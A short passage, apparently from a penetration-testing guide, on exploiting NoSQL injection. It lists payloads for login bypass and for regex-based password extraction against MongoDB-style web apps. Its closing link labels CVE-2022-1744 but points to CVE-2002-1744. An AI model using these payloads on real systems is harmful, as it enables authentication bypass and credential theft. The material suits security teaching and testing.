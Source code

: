 
#### 2.6.3.3 Exploiting NoSQL Injection

In URL query parameters, you put the nested object key or operator in brackets. Here is an example that might work for auth bypass:

```
http://example.com/search?username=admin&password[$ne]=derp

# other short examples:
password[$regex]=.*
password[$exists]=true
```

In POST body (JSON):

```json
{"username": "admin", "password": {"$ne": null} }

// other examples
{"username": "admin", "password": {"$gt": undefined} }
```

SQL vs Mongo injection:

```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00

/?search=admin' && this.password//+%00 --> Check if the field password exists
/?search=admin' && this.password.match(/.*/)//+%00 --> Start matching password
/?search=admin' && this.password.match(/^p.*$/)//+%00
/?search=admin' && this.password.match(/^pa.*$/)//+%00
```

Extracting length information:

```
username=admin&password[$regex]=.{1}
username=admin&password[$regex]=.{3}
# True if the length equals 1,3...
```

Building password:

```
username=admin&password[$regex]=p.*
username=admin&password[$regex]=pa.*
username=admin&password[$regex]=pas.*
username=admin&password[$regex]=pass.*
...
# in JSON
{"username": "admin", "password": {"$regex": "^p" }}
{"username": "admin", "password": {"$regex": "^pa" }}
{"username": "admin", "password": {"$regex": "^pas" }}
...
```


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744